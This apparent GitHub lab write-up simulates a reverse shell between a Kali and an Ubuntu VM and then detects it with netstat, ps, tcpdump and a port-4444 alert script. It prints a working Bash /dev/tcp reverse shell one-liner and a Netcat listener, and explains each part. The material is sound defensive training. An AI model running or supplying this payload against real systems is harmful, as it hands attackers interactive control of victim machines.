





# 🐚 Lab 9: Reverse Shell Detection using Network and Process Monitoring

> *Simulate a reverse shell attack where the victim machine initiates a connection back to the attacker — then detect it through network connection analysis, process inspection, packet capture, and automated alerting.*

---

## 📋 Table of Contents

- [Objective](#-objective)
- [Lab Environment](#-lab-environment)
- [Tools Used](#️-tools-used)
- [Scenario Overview](#-scenario-overview)
- [Lab Steps](#️-lab-steps)
  - [1. Start Listener on Attacker](#1️⃣-start-listener-on-attacker-kali)
  - [2. Execute Reverse Shell from Victim](#2️⃣-execute-reverse-shell-from-victim-ubuntu)
  - [3. Reverse Shell Established](#3️⃣-reverse-shell-established)
  - [4. Detect Suspicious Network Connection](#4️⃣-detect-suspicious-network-connection)
  - [5. Analyze Running Processes](#5️⃣-analyze-running-processes)
  - [6. Monitor Network Traffic](#6️⃣-monitor-network-traffic-packet-level)
  - [7. Automated Detection Script](#7️⃣-automated-detection-script)
- [Detection Indicators](#-detection-indicators)
- [Attack Flow](#-attack-flow)
- [Skills Demonstrated](#-skills-demonstrated)
- [Key Learnings](#-key-learnings)
- [Conclusion](#-conclusion)

---

## 🎯 Objective

Simulate a **reverse shell attack** in which the victim (Ubuntu) initiates an outbound connection back to the attacker (Kali), then detect the intrusion using three complementary methods: **network connection analysis**, **process inspection**, and **packet-level traffic monitoring** — and automate detection with a Bash alerting script.

---

## 🧱 Lab Environment

| Setting | Details |
|---------|---------|
| Hypervisor | VMware Fusion |

### 🖥️ Machines

| Role | OS | IP Address |
|------|----|-----------|
| 🔴 Attacker | Kali Linux | `192.168.248.130` |
| 🟢 Victim | Ubuntu Server | `192.168.248.128` |

---

## 🛠️ Tools Used

| Tool | Side | Purpose |
|------|------|---------|
| **Netcat** (`nc`) | Attacker | Opens a listening port to receive the shell |
| **Bash** (`/dev/tcp`) | Victim | Executes the reverse shell payload |
| **`netstat`** | Defender | Detects suspicious active connections |
| **`ps`** | Defender | Identifies malicious running processes |
| **`tcpdump`** | Defender | Packet-level traffic inspection |
| **Bash Script** | Defender | Automated port 4444 connection alerting |

---

## 🚨 Scenario Overview

```
          ATTACKER (Kali)                    VICTIM (Ubuntu)
          ───────────────                    ───────────────
          nc -lvnp 4444                      bash -i >& /dev/tcp/
          (waiting...)          ◀────────────192.168.248.130/4444
                                             (reverse shell fires)
                │
                │  Shell session established
                │  Attacker now controls victim
                ▼

        DETECTION METHODS (Defender)
        ─────────────────────────────
        netstat -antp    → Spots outbound connection on port 4444
        ps aux | grep bash → Reveals suspicious bash process
        tcpdump -i ens160  → Shows continuous attacker ↔ victim traffic
        reverse-shell-alert.sh → Automated alert on port 4444 match
```

> ⚠️ **Why is this dangerous?** Unlike a standard attack where the attacker connects *inward* (blocked by firewalls), a reverse shell has the *victim* connect *outward* — often bypassing firewall rules that only block incoming connections.

---

## ⚙️ Lab Steps

---

### 1️⃣ Start Listener on Attacker (Kali)

A Netcat listener was started on the Kali machine, waiting for an incoming connection from the victim.

```bash
nc -lvnp 4444
```

| Flag | Meaning |
|------|---------|
| `-l` | Listen mode — wait for incoming connection |
| `-v` | Verbose — show connection details |
| `-n` | No DNS resolution |
| `-p 4444` | Listen on port 4444 |


---

### 2️⃣ Execute Reverse Shell from Victim (Ubuntu)

The reverse shell payload was executed on the Ubuntu victim machine. This command redirects the victim's bash shell over a TCP connection to the attacker.

```bash
bash -i >& /dev/tcp/192.168.248.130/4444 0>&1
```

#### 🔍 Command Breakdown

| Component | Meaning |
|-----------|---------|
| `bash -i` | Launch an interactive bash shell |
| `>& /dev/tcp/192.168.248.130/4444` | Redirect stdout and stderr to attacker's IP:port |
| `0>&1` | Also redirect stdin — giving the attacker full interactive control |

> ⚠️ This single command gives the attacker full terminal access to the victim machine — with the same privileges as the user who ran it.



---

### 3️⃣ Reverse Shell Established

After the payload executed on Ubuntu, the Netcat listener on Kali received the connection — and a live shell session began.


> At this point, the attacker has an **interactive bash session** on the victim machine. All commands typed in Kali execute on Ubuntu.

---

### 4️⃣ Detect Suspicious Network Connection

On the Ubuntu victim machine, active network connections were inspected using `netstat`.

```bash
netstat -antp
```

| Flag | Meaning |
|------|---------|
| `-a` | Show all connections |
| `-n` | Show numeric IPs (no DNS) |
| `-t` | TCP connections only |
| `-p` | Show the PID/program name |



#### 🔍 Observations

| Finding | Detail |
|---------|--------|
| Outbound connection | `192.168.248.128` → `192.168.248.130` |
| Suspicious port | Port `4444` — not a standard service port |
| State | `ESTABLISHED` — active live connection |
| Process | `bash` — shell process over a network socket |

> 🚩 A `bash` process maintaining an `ESTABLISHED` connection to an external IP on a non-standard port is a high-confidence reverse shell indicator.

---

### 5️⃣ Analyze Running Processes

Running processes were inspected to identify any suspicious shell activity.

```bash
ps aux | grep bash
```



#### 🔍 Observations

| Indicator | Significance |
|-----------|-------------|
| `bash -i` in process list | Interactive shell launched — not typical for server processes |
| Network file descriptor | Bash process connected to a socket (not a terminal) |
| Unexpected bash instance | Server processes rarely spawn interactive bash shells |

> 🧠 On a server, seeing a `bash -i` process is immediately suspicious — servers don't normally run interactive shells unless someone is logged in via SSH.

---

### 6️⃣ Monitor Network Traffic (Packet Level)

`tcpdump` was used to inspect raw packet traffic at the network interface level, providing the deepest visibility into the attacker-victim communication.

```bash
sudo tcpdump -i ens160
```


#### 🔍 Observations

| Observation | Detail |
|-------------|--------|
| Continuous traffic | Persistent packet flow between `192.168.248.128` and `192.168.248.130` |
| Port `4444` | Non-standard port consistently present in captures |
| TCP flags | `ACK`, `PSH` flags indicating active data exchange |
| Unusual pattern | Outbound session sustained well beyond a typical request |

---

### 7️⃣ Automated Detection Script

A Bash script was created to continuously monitor for active connections on port `4444` and generate an alert when detected.

```bash
nano reverse-shell-alert.sh
```

**Script contents (`reverse-shell-alert.sh`):**

```bash
#!/bin/bash

echo "[+] Monitoring suspicious connections..."

while true
do
    netstat -antp | grep ":4444" > /dev/null
    if [ $? = 0 ]; then
        echo "[ALERT] Possible reverse shell detected!"
    fi
    sleep 2
done
```

#### 🔍 Script Breakdown

| Component | Purpose |
|-----------|---------|
| `while true` | Runs continuously — polls every 2 seconds |
| `netstat -antp \| grep ":4444"` | Checks for any active connection on port 4444 |
| `> /dev/null` | Suppresses output — only the alert matters |
| `[ALERT]` | Printed whenever port 4444 is active |
| `sleep 2` | Polling interval — checks every 2 seconds |

```bash
chmod +x reverse-shell-alert.sh
./reverse-shell-alert.sh
```

**Example alert output:**
```
[+] Monitoring suspicious connections...
[ALERT] Possible reverse shell detected!
[ALERT] Possible reverse shell detected!
```





> 💡 This script can be extended to also log the alert with a timestamp, capture the offending PID, or automatically kill the connection.

---

## 🔍 Detection Indicators

A reverse shell leaves traces across **three detection layers** simultaneously:

| Layer | Tool | Indicator |
|-------|------|-----------|
| 🌐 **Network** | `netstat` | `ESTABLISHED` connection to external IP on port `4444` |
| ⚙️ **Process** | `ps aux` | `bash -i` process connected to a network socket |
| 📦 **Packet** | `tcpdump` | Persistent two-way traffic on non-standard port |
| 🤖 **Automated** | Bash script | Port `4444` match triggers `[ALERT]` every 2 seconds |

> ✅ Checking **all three layers** simultaneously eliminates false positives and gives a high-confidence detection — this is the multi-source correlation approach used in real SIEM platforms.

---

## 🧪 Attack Flow

```
 ATTACK SIDE (Kali)                  DEFENSE SIDE (Ubuntu)
 ──────────────────                  ─────────────────────
 nc -lvnp 4444                       ./reverse-shell-alert.sh
 (waiting...)                        (monitoring port 4444)
       │                                      │
 [victim runs payload]               [ALERT fires on port match]
       │
 Shell session received ✅
       │
                              netstat -antp → ESTABLISHED on :4444 ✅
                              ps aux | grep bash → bash -i found ✅
                              tcpdump → persistent traffic confirmed ✅
```

---

## 🧠 Skills Demonstrated

- ✅ Setting up a Netcat listener for reverse shell simulation
- ✅ Understanding how reverse shells bypass inbound firewall rules
- ✅ Detecting live connections with `netstat` and interpreting flags
- ✅ Process-level intrusion analysis with `ps aux`
- ✅ Packet-level traffic inspection with `tcpdump`
- ✅ Building an automated port-monitoring Bash alert script
- ✅ Multi-layer threat detection (network + process + packet)

---

## 📘 Key Learnings

- ✅ **Reverse shells bypass firewalls** by having the victim initiate the outbound connection — firewalls typically allow outbound traffic
- ✅ **Port 4444** (and other non-standard ports) in an `ESTABLISHED` state on a server is always suspicious
- ✅ A `bash -i` process connected to a network socket — not a terminal — is a high-confidence reverse shell indicator
- ✅ **Multi-layer detection** (network + process + packet) is more reliable than any single tool alone
- ✅ Simple polling scripts can detect threats in environments without enterprise monitoring
- ✅ This lab mirrors how **EDR and SIEM** tools correlate signals across network, process, and file layers

---

## 🚀 Conclusion

This lab demonstrated a complete reverse shell attack and detection lifecycle. By combining `netstat`, `ps`, `tcpdump`, and a custom Bash alerting script, the attack was detected across network, process, and packet layers simultaneously — reflecting the **multi-source correlation** approach used in professional threat detection. Understanding how reverse shells work and how to spot them is a foundational skill for both penetration testers and defenders.

---

## ⚠️ Disclaimer

> This lab was conducted in a **controlled virtual environment** for **educational purposes only**.  
> Do not replicate these techniques on any network or system without explicit written authorization.

---

<div align="center">

*🐚 Lab 9 — Reverse Shell Detection · Cybersecurity Home Lab Series*

</div>
